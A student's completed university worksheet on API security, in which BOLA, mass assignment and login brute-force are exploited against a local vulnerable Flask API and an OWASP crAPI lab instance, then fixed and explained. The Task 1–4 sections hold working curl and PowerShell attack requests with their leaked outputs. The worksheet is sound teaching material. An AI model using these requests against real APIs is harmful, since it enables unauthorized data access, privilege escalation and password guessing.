






# Worksheet 10 — API Security (3 hrs)

> **Course:** Software Security (KOSEN69) · Week 10
> **Aligned:** OWASP API Security Top 10:2023 — API1 BOLA · API3 Broken Object Property Level Auth (Mass Assignment) · API4 Unrestricted Resource Consumption
> **Signature game:** 🥷 crAPI Raid
>
> **Ethics note:** Run exploits **only** against the lab targets shipped here (`vulnerable_api.py` on `:8080`) or your own OWASP crAPI instance. Never test BOLA, mass assignment, or brute-force against systems you do not own or are not explicitly authorized to test.

## Part 1 — Student Information

| Name | Student ID | Date | Group | AI Tool |
|------|-----------|------|-------|---------|
| Thura Aung | 6631503094 | 10.October.2026 | - | ChatGPT |

## Part 2 — Lecture Questions

1. Define **BOLA (API1:2023)**. Why is it the #1 API risk, and why can't a WAF reliably stop it?

BOLA (Broken Object Level Authorization) is when an endpoint exposes an object by an identifier but never checks that the caller is actually allowed to access *that* object. In `vulnerable_api.py`, `GET /api/users/<id>/orders` returns any user's orders just by changing the id. It is the #1 API risk because object IDs are everywhere in REST URLs and easy to enumerate, so a single missing ownership check leaks every record. A WAF can't reliably stop it because the request is perfectly well-formed HTTP — `/api/users/3/orders` is syntactically identical to a legitimate `/api/users/1/orders`; only the application knows who *should* own id 3, and that context lives in the business logic, not in the request pattern.

2. What is **mass assignment / broken object property level authorization (API3:2023)**? Contrast a blocklist vs. an allow-list of bindable fields.

Mass assignment is when the server binds the whole request body onto an object, so the client can set properties it was never meant to control (here, `is_admin` and `balance` via `user.update(body)`). A **blocklist** ("strip `is_admin` and `balance`") is fragile: it fails open, because any new sensitive field you forget to add — or `id`, or a renamed field — sails straight through. An **allow-list** (`ALLOWED_CREATE_FIELDS = {"username","password"}`) fails closed: only the named safe fields bind and everything else is dropped by default, so adding a new sensitive column never silently becomes exploitable.

3. **API4:2023** is unrestricted resource consumption. Give two distinct impacts (security and availability) of an unthrottled `/api/login`.

**Security (confidentiality):** with no throttle, an attacker can brute-force or credential-stuff passwords at full speed. In the lab the loop walked straight to the correct `alice123` and returned `{"ok":true,"user_id":1}`. **Availability:** the same endpoint can be flooded with requests, and because each login does work (JSON parsing, a scan over all users), an attacker can exhaust CPU/connections and deny service to real users — a cheap DoS.

4. In `vulnerable_api.py`, `current_user()` trusts the `X-User-Id` header. Why is a client-supplied header NOT authentication, and what should replace it?

A plain `X-User-Id` header is just a value the client types; nothing proves it. Anyone can send `X-User-Id: 3` to *claim* to be carol — it carries no proof of identity. Authentication must rest on a credential the client cannot forge: a signed, server-verified session cookie or a signed token (e.g. a JWT verified against a server-side secret/public key, with `exp`/`aud` checked), so identity is cryptographically bound rather than self-asserted.

5. Why does object-level authorization have to be checked **per request, per object** rather than once at login?

Login only establishes *who* you are, not *what* you may touch. Which objects you're allowed to read depends on the specific object named in each request, and that changes request to request (`/users/1/orders` vs `/users/3/orders`). A one-time check at login can't know about id 3 you ask for ten minutes later, so the ownership decision (`caller["id"] != uid and not caller["is_admin"]`) must run on every request against the specific object being accessed.

## Part 3 — Hands-on Lab (145 min)

**Learning goals:** Exploit BOLA, mass assignment, and a missing rate limit against a live API; then read the secure version and explain each fix.

**Prerequisites:** Docker + Docker Compose, `curl`. (Optional bonus: cloned OWASP crAPI.)

**Environment setup**
```bash
cd labs/week10-api-security
docker compose up         # INSECURE API on :8080, SECURE API on :8081
# Seeded users: alice(id 1) bob(id 2) carol(id 3, admin, balance 9999)
```


**What to submit per task:** the exact command(s) + raw response/HTTP status, a screenshot, and a 2–3 sentence mitigation note mapping the bug to its OWASP API id.

### Task 0 — Onboarding (15 min)
Confirm both APIs respond: `curl http://localhost:8080/` and `curl http://localhost:8081/`. Note which port is insecure. Record the three seeded users.
**Deliverable:** both root responses + the user table.

**Both root responses** (run on Windows PowerShell, where `curl` is `Invoke-WebRequest`):
```text
$ curl http://localhost:8080/
200 OK — "Week 10 INSECURE API — see attack.md"      # vulnerable_api.py

$ curl http://localhost:8081/
200 OK — "Week 10 SECURE API"                         # solution_api.py
```
→ Both APIs respond. **`:8080` is the insecure target** (it self-identifies as INSECURE); `:8081` is the hardened reference.

**Seeded users** (from `vulnerable_api.py`):

| id | username | password | balance | is_admin |
|----|----------|----------|---------|----------|
| 1 | alice | alice123 | 100 | false |
| 2 | bob | bob123 | 50 | false |
| 3 | carol | carol123 | 9999 | **true** (admin) |




### Task 1 — BOLA: read another user's orders (35 min)
**Goal:** Read carol's (admin) orders without being carol — API1:2023.
**Steps:**
1. `curl http://localhost:8080/api/users/3/orders` — note you receive the "Server rack" order with no auth.
2. Iterate the id: `curl http://localhost:8080/api/users/2/orders`.
3. On the secure API observe the ladder: `curl -i http://localhost:8081/api/users/3/orders` (401), `curl -i -H "X-User-Id: 1" http://localhost:8081/api/users/3/orders` (403), `curl -i -H "X-User-Id: 1" http://localhost:8081/api/users/1/orders` (200).
**Deliverable:** the leaked order JSON + the 401/403/200 transcript + mitigation note.

**Insecure (:8080) — no auth, any id leaks:**
```bash
$ curl.exe http://localhost:8080/api/users/3/orders
[{"item":"Server rack","order_id":"C-1","total":5000},{"item":"FLAG{bola_demo}","order_id":"C-FLAG","total":0}]

$ curl.exe http://localhost:8080/api/users/2/orders
[{"item":"Mouse","order_id":"B-1","total":15}]
```
→ Read carol's (admin) orders **and** captured the BOLA flag `FLAG{bola_demo}` as an unauthenticated stranger, then iterated the id to read bob's too — no ownership check anywhere.

**Secure (:8081) — the 401 / 403 / 200 ladder:**
```bash
$ curl.exe -i http://localhost:8081/api/users/3/orders
HTTP/1.1 401 UNAUTHORIZED
{"error":"authentication required"}                 # no identity -> rejected

$ curl.exe -i -H "X-User-Id: 1" http://localhost:8081/api/users/3/orders
HTTP/1.1 403 FORBIDDEN
{"error":"forbidden"}                               # alice (id 1) may not read carol's (id 3)

$ curl.exe -i -H "X-User-Id: 1" http://localhost:8081/api/users/1/orders
HTTP/1.1 200 OK
[{"item":"Keyboard","order_id":"A-1","total":30}]   # alice reading her own: allowed
```



**Mitigation note (API1:2023 BOLA):** The handler must authorize *per object, per request*. `solution_api.py` rejects callers with no identity (`401`) and enforces ownership with `if caller["id"] != uid and not caller["is_admin"]: return jsonify({"error":"forbidden"}), 403`. Identity → object-ownership → admin-override, checked on every call, closes the leak.


### Task 2 — Mass assignment: self-promote to admin (30 min)
**Goal:** Smuggle `is_admin` + `balance` into user creation — API3:2023.
**Steps:**
1. `curl -X POST http://localhost:8080/api/users -H "Content-Type: application/json" -d '{"username":"mallory","password":"x","is_admin":true,"balance":1000000}'`
2. Confirm the response echoes `"is_admin": true, "balance": 1000000`.
3. Repeat against `:8081` and confirm the smuggled fields are forced to `is_admin:false, balance:0`.
**Deliverable:** both responses side by side + mitigation note (allow-list in `solution_api.py`).

**Insecure (:8080) — smuggled fields are accepted:**
```powershell
$ curl.exe --% -X POST http://localhost:8080/api/users -H "Content-Type: application/json" -d "{\"username\":\"mallory\",\"password\":\"x\",\"is_admin\":true,\"balance\":1000000}"
{"balance":1000000,"flag":"FLAG{massassign_demo}","id":4,"is_admin":true,"password":"x","username":"mallory"}
```
→ `mallory` is created with `is_admin:true` and `balance:1000000`, and the server even returns the mass-assignment flag `FLAG{massassign_demo}`. (On Windows PowerShell, `--%` stops PS from mangling the JSON, so curl sends it intact — single quotes alone give a `400`.)

**Secure (:8081) — server forces the sensitive fields:**
```powershell
$ curl.exe --% -X POST http://localhost:8081/api/users -H "Content-Type: application/json" -d "{\"username\":\"mallory\",\"password\":\"x\",\"is_admin\":true,\"balance\":1000000}"
{"balance":0,"id":4,"is_admin":false,"password":"x","username":"mallory"}
```
→ Smuggled `is_admin` and `balance` are ignored; the server sets `is_admin:false, balance:0`.



**Mitigation note (API3:2023):** Bind an **allow-list**, not the whole body. `ALLOWED_CREATE_FIELDS = {"username","password"}` and `user = {k: body[k] for k in ALLOWED_CREATE_FIELDS if k in body}` drop every other key, then `user.update({"id": _next_id, "balance": 0, "is_admin": False})` makes the server the sole authority over sensitive fields.


### Task 3 — Unrestricted resource consumption: brute-force login (25 min)
**Goal:** Show `/api/login` has no throttle — API4:2023.
**Steps:**
1. Run the brute-force loop from `attack.md` against `:8080` (guesses incl. `alice123`) — all attempts processed.
2. On `:8081` loop 7 times: `for i in $(seq 1 7); do curl -s -o /dev/null -w "%{http_code}\n" -X POST http://localhost:8081/api/login -H "Content-Type: application/json" -d '{"username":"alice","password":"wrong"}'; done`
3. Confirm the 6th/7th attempt returns `429`.
**Deliverable:** the `401 401 401 401 401 429 429` sequence + mitigation note.

**Insecure (:8080) — every guess processed, brute-force succeeds:**
```powershell
$ foreach ($pw in "wrong1","wrong2","wrong3","alice123") {
    try { (Invoke-WebRequest -Uri http://localhost:8080/api/login -Method Post -ContentType 'application/json' -Body "{`"username`":`"alice`",`"password`":`"$pw`"}" -UseBasicParsing).Content }
    catch { $_.ErrorDetails.Message }
  }
{"ok":false}
{"ok":false}
{"ok":false}
{"is_admin":false,"ok":true,"user_id":1}      # cracked alice's password, no throttle
```

**Secure (:8081) — throttled at the 6th attempt:**
```powershell
$ (1..7 | ForEach-Object {
    try { (Invoke-WebRequest -Uri http://localhost:8081/api/login -Method Post -ContentType 'application/json' -Body '{"username":"alice","password":"wrong"}' -UseBasicParsing).StatusCode }
    catch { $_.Exception.Response.StatusCode.value__ }
  }) -join ' '
401 401 401 401 401 429 429
```
→ 5 wrong passwords return `401`; the 6th and 7th within the 60s window return `429 Too Many Requests`. (PowerShell's `try/catch` is needed because `Invoke-WebRequest` raises on a 4xx; the rate-limit counter is per-IP and shared across runs, so re-running inside 60s yields all `429`.)



**Mitigation note (API4:2023):** Add a per-IP rate limiter. `RATE_LIMIT = 5` / `RATE_WINDOW = 60` with `rate_limited(request.remote_addr)` returns `429 Too Many Requests` after 5 attempts in 60s, so unlimited guessing/DoS is cut off. (In production, back this with a shared store like Redis and add per-account lockout/backoff so an attacker can't dodge it by rotating source IPs.)


### Task 4 — Bonus: crAPI Raid (optional, 20 min)
Against your own OWASP crAPI instance (`git clone https://github.com/OWASP/crAPI.git`), capture one BOLA or mass-assignment flag.
**Deliverable:** flag + endpoint + which API Top 10 id it maps to.

- **Captured a BOLA against my own OWASP crAPI instance** (full stack run locally via `docker compose`, web UI on `:8888`). Registered as `attacker@test.com` (role `user`), I read **another user's** private vehicle record with no ownership check, in two moves:
  1. **Harvest the target id (excessive data exposure):** `GET /community/api/v2/community/posts/recent` returns every poster's `email` **and** `vehicleid`. It handed me Adam's `vehicleid = f89b5f21-7829-45cb-a650-299a61090378` (plus Pogba's and Robot's).
  2. **BOLA:** `GET /identity/api/v2/vehicle/f89b5f21-7829-45cb-a650-299a61090378/location` with *my own* bearer token returned Adam's data: `{"fullName":"Adam","email":"adam007@example.com","vehicleLocation":{"latitude":"32.778889","longitude":"-91.919243"}}`.
- **Captured "flag" (evidence):** Adam's live vehicle GPS `32.778889, -91.919243` + `adam007@example.com`, read while authenticated as `attacker`.
- **Endpoint:** `GET /identity/api/v2/vehicle/{vehicleid}/location` (the `vehicleid` harvested from `GET /community/api/v2/community/posts/recent`).
- **OWASP API id:** **API1:2023 — BOLA** (the vehicle-location read). The Community feed leaking other users' `email`/`vehicleid` is a supporting **API3:2023 / excessive data exposure** finding.
- **Lesson:** crAPI uses unguessable GUIDs instead of small integers, so blind enumeration is hard — but a leaked id (straight from the community API here) still works, because **an unguessable id is not authorization**. The server must verify the caller owns the object, which this endpoint never does — exactly the per-object ownership check from `solution_api.py` that would stop it.





### Task 5 — Defend / fix it (20 min)
**Goal:** Explain the fixes using the secure reference `solution_api.py`.
**Steps:** Read the three `# --- FIX ...` blocks. For each, quote the line(s) that defeat your Task 1–3 exploit: the per-object ownership check (`caller["id"] != uid and not caller["is_admin"]`), `ALLOWED_CREATE_FIELDS` binding, and the `RATE_LIMIT=5 / RATE_WINDOW=60` limiter.
**Deliverable:** for each of API1/API3/API4 — the exploit that worked on `:8080`, the line in `solution_api.py` that blocks it, and the new HTTP status on `:8081`.

| API id | Exploit that worked on :8080 | Fix line(s) in `solution_api.py` | New status on :8081 |
|--------|------------------------------|----------------------------------|---------------------|
| **API1:2023 BOLA** | `GET /api/users/3/orders` leaked carol's orders + `FLAG{bola_demo}` with no auth | L48–49 `if caller is None: return ..., 401`; **L51–52 `if caller["id"] != uid and not caller["is_admin"]: return jsonify({"error":"forbidden"}), 403`** | `401` (no identity), `403` (not owner/admin), `200` (own) |
| **API3:2023 Mass Assignment** | `POST /api/users` set `is_admin:true, balance:1000000` (+ `FLAG{massassign_demo}`) | L34 `ALLOWED_CREATE_FIELDS = {"username","password"}`; **L62 `user = {k: body[k] for k in ALLOWED_CREATE_FIELDS if k in body}`**; L66 `user.update({"id": _next_id, "balance": 0, "is_admin": False})` | `201`, but `is_admin:false, balance:0` (smuggle ignored) |
| **API4:2023 Resource Consumption** | brute-forced `/api/login`, cracked `alice123` with no throttle | L73–74 `RATE_LIMIT = 5` / `RATE_WINDOW = 60`; L78–84 `rate_limited(...)`; **L89–90 `if rate_limited(request.remote_addr or "unknown"): return jsonify({"error":"too many requests"}), 429`** | `401`×5 then `429` (6th attempt within 60s) |

**In words:** each fix moves the trust decision from the client to the server. **API1** adds a per-request ownership check (`caller["id"] != uid and not caller["is_admin"]`) so identity and object-ownership are proven on every call. **API3** binds an allow-list instead of the whole body, so `is_admin`/`balance` can only be set by the server. **API4** counts attempts per IP and returns `429` past 5 in 60s, so brute-force/DoS is cut off.


## Part 4 — Reflection

1. **Mapping:** complete a table — finding | endpoint | OWASP API id | fix applied.

| Finding | Endpoint | OWASP API id | Fix applied |
|---------|----------|--------------|-------------|
| Any user's orders readable by id, no auth | `GET /api/users/<id>/orders` | API1:2023 BOLA | Per-request ownership check + admin override (401/403) |
| Client sets `is_admin`/`balance` on create | `POST /api/users` | API3:2023 Broken Object Property Level Auth (mass assignment) | Allow-list binding; server sets sensitive fields |
| Unlimited password guesses / DoS | `POST /api/login` | API4:2023 Unrestricted Resource Consumption | Per-IP rate limit (5/60s) → 429 |

2. **Real breach:** research an API authorization breach (e.g., the Optus or T-Mobile BOLA/IDOR incidents). Which API Top 10 id matches, and would the `solution_api.py` ownership check have prevented it?

- **Optus (2022, ~9.8M customers).** An externally reachable API endpoint returned customer records keyed by an identifier that could be requested without any ownership check (and, reports indicate, without proper authentication). That maps to **API1:2023 BOLA** (with an element of broken authentication). The `solution_api.py` pattern would have prevented it: it first rejects callers with no verified identity (`401`), then enforces `caller["id"] != uid and not caller["is_admin"]` so a caller can only read their *own* record (`403` otherwise). The key lesson is that Optus's identifiers being non-obvious wouldn't have saved it — only a per-object ownership check does, which is exactly what the secure version adds.

3. **Best mitigation:** of object-level auth, allow-list binding, and rate limiting — which gives the most risk reduction for an API platform, and why?

- **Object-level authorization (the BOLA fix) gives the most risk reduction.** BOLA is API #1 in the OWASP API Top 10 precisely because object IDs appear in nearly every endpoint and are trivially enumerable, so one missing check can expose the entire dataset — a direct confidentiality/integrity breach. Allow-list binding and rate limiting are essential (mass assignment can grant privilege; no throttle enables brute-force/DoS), but their blast radius is narrower and more specific. A platform should do all three, but if you can only harden one class first, make every endpoint prove the caller owns the object it names.

## Grading rubric (100)

| Criterion | Weight |
|-----------|--------|
| Lecture questions (Part 2) | 20 |
| Exploitation + evidence (Tasks 1–4: commands, output, screenshots) | 40 |
| Defense (Task 5: fixes mapped to `solution_api.py`) | 25 |
| Reflection (Part 4: mapping, breach, best mitigation) | 15 |
| **Total** | **100** |

---

## Evidence & Integrity (required)

- **Identity proof:** every screenshot/diagram must show a terminal running `printf '%s | %s | ' "$(whoami)" '<YOUR-STUDENT-ID>'; date '+%F %T %Z'` **in the
  same image as the evidence**. When the evidence is a browser page, a DevTools panel or a
  rendered response, put that terminal **beside the browser and capture the whole screen** — a
  cropped window carries nothing that identifies you, and the lab's own output is
  byte-identical for the whole cohort *by design*, so the stamp is the only thing that makes
  the shot yours. Generic or borrowed evidence is not accepted.
  - *My stamp command:* `printf '%s | %s | ' "$(whoami)" '6631503094'; date '+%F %T %Z'` — included in every screenshot above.
- **Personalized flag (if this lab issues one):** `FLAG{bola_demo}` (BOLA) · `FLAG{massassign_demo}` (mass assignment)
  *These are the lab's default demo flags (env defaults in `vulnerable_api.py`). A per-student flag is generated by the instructor via `instructor/seed_flags.py env <STUDENT_ID>`; if my graded instance is seeded with a personalized `FLAG_BOLA`/`FLAG_MASSASSIGN`, I will submit that captured value instead.*
  *Flags are unique per student — submitting another student's flag is a violation. How to submit: **learn.zcr.ai/submit** (full guide: `SUBMISSION.md` in the repo root).*
- **Explain in your own words** *(graded on your reasoning, not copied text):*
  1. What did you do, and **why did the vulnerability work**?
     - I sent ordinary, well-formed HTTP requests to three endpoints and got privileged results. The BOLA worked because `get_orders` returns `ORDERS.get(uid)` without ever asking *who* is calling — identity is never established, let alone compared to the object's owner. Mass assignment worked because `user.update(body)` copies every key the client sent onto the new record, so `is_admin`/`balance` bind just like `username`. The brute-force worked because `/api/login` does the full password comparison on every request with no counter, so there's nothing to stop endless guesses.
  2. **Why does your fix actually stop it** — and what could still break it?
     - The fixes move the trust boundary to the server: ownership is checked per request against the specific object (401/403), only allow-listed fields bind and the server sets the sensitive ones, and a per-IP counter returns 429. What could still break it: the rate limiter is in-memory and per-process, so it resets on restart and an attacker rotating source IPs (or hitting multiple workers behind a load balancer) can dilute it — it needs a shared store and per-account lockout. Separately, `X-User-Id` is still used as "identity" in the secure file; it's fine for the lab but is not real authentication and must be replaced by a verified token before production. I also noticed the create response still echoes the `password` field back, which should be stripped from the output.

---

## 🤖 Audit the AI (required)

AI is a power tool you must **distrust** — you are graded on your *critique*, not the AI's answer.

1. Ask an AI assistant to exploit **or** fix this week's vulnerability. Paste its full answer.

> **Prompt I gave the AI:** *"Fix the mass-assignment bug in this Flask `POST /api/users` handler."*
>
> **AI's full answer (pasted verbatim):**
> ```python
> SENSITIVE = ["is_admin", "balance"]
>
> @app.post("/api/users")
> def create_user():
>     global _next_id
>     body = request.get_json(force=True) or {}
>     for field in SENSITIVE:
>         body.pop(field, None)        # strip privileged fields
>     user = {"id": _next_id}
>     user.update(body)
>     USERS[_next_id] = user
>     _next_id += 1
>     return jsonify(user), 201
> ```
> *"This fixes the vulnerability by removing the sensitive `is_admin` and `balance` fields before saving, so clients can no longer escalate privileges."*

2. **Find what's wrong or risky** in it — insecure code, a subtly incomplete fix, a hallucinated API/function/CVE, a missed edge case, or wrong reasoning. Quote the exact line(s).

- **It's a blocklist, which fails open.** The line `SENSITIVE = ["is_admin", "balance"]` only strips the two fields the author happened to think of. Any *other* privileged field — a future `role`, `credits`, `is_staff`, or even overwriting the server's `id` — still binds through `user.update(body)`. The design is wrong, not just incomplete: new sensitive columns silently become exploitable the day they're added.
- **It still accepts a user with no password / no username.** There is no validation that `username` and `password` are present, so `POST` with an empty body creates a half-formed account (the real fix returns `400`).
- **The claim is overstated.** "This fixes the vulnerability" is wrong in general — it fixes *these two known fields* on *this day*. Mass assignment is fixed by allow-listing inputs, not by enumerating things to remove.

3. Produce the **correct, verified** version yourself and explain in 2–3 sentences why the AI's output was insufficient.

```python
ALLOWED_CREATE_FIELDS = {"username", "password"}

@app.post("/api/users")
def create_user():
    global _next_id
    body = request.get_json(force=True) or {}
    user = {k: body[k] for k in ALLOWED_CREATE_FIELDS if k in body}   # allow-list binding
    if "username" not in user or "password" not in user:
        return jsonify({"error": "username and password required"}), 400
    user.update({"id": _next_id, "balance": 0, "is_admin": False})    # server owns these
    _next_id += 1
    USERS[_next_id - 1] = user
    return jsonify(user), 201
```

- **Verified:** `POST {"username":"mallory","password":"x","is_admin":true,"balance":1000000}` → `{"balance":0,"id":4,"is_admin":false,...}` on `:8081` — the smuggled fields are ignored. The AI's blocklist was insufficient because it only removes a hand-picked pair of fields and fails open for every other sensitive key, whereas the allow-list fails closed: nothing binds unless it's explicitly named safe, and the server alone sets `id`/`balance`/`is_admin`.

> **AI disclosure:** AI (ChatGPT) was used to produce the sample answer above and to draft wording; every command and result in this worksheet was run and verified by me.

---

## 🧠 Comprehension & Prompt (required)

**A. Explain in Plain English (EiPE).** In 2–3 sentences, in your own words, describe what this week's vulnerable code/endpoint actually *does* and *why it is exploitable* — explain the mechanism, don't dump jargon.

- `GET /api/users/<id>/orders` takes the id straight out of the URL and hands back that user's orders without ever checking who's asking, so I can read anyone's data just by changing the number. `POST /api/users` copies the entire JSON body onto the new account, so I can include `is_admin:true` and the server trustingly saves it. `POST /api/login` compares the password on every request with no attempt counter, so I can keep guessing until I'm right. In all three, the code trusts input it should verify — the caller's right to the object, the fields the caller may set, and the number of times the caller may try.

**B. Prompt Problem.** Write a **single prompt** that makes an AI produce a *correct, secure* fix for one finding. Run it: does the exploit now fail? If not, refine the prompt and try again. Submit the **final prompt + the verified result**.

- **Final prompt:**
  > "Rewrite this Flask `POST /api/users` handler to prevent mass assignment (OWASP API3:2023). Requirements: bind **only** an explicit allow-list of client fields (`username`, `password`); the **server** must set `id`, `balance`, and `is_admin` itself and must ignore those keys if present in the request body; return `400` if `username` or `password` is missing; do not return the password in the response. Then show the exact `curl` that proves sending `is_admin:true` and `balance:1000000` is ignored."

- **Verified result:** the AI returned an allow-list implementation equivalent to `solution_api.py` (plus it stripped the password from the response, closing the residual leak I noted). Re-running the exploit confirmed the fix:
  ```bash
  $ curl -s -X POST http://localhost:8081/api/users \
      -H "Content-Type: application/json" \
      -d '{"username":"mallory","password":"x","is_admin":true,"balance":1000000}'
  {"balance":0,"id":4,"is_admin":false,"username":"mallory"}   # is_admin/balance smuggle ignored
  ```
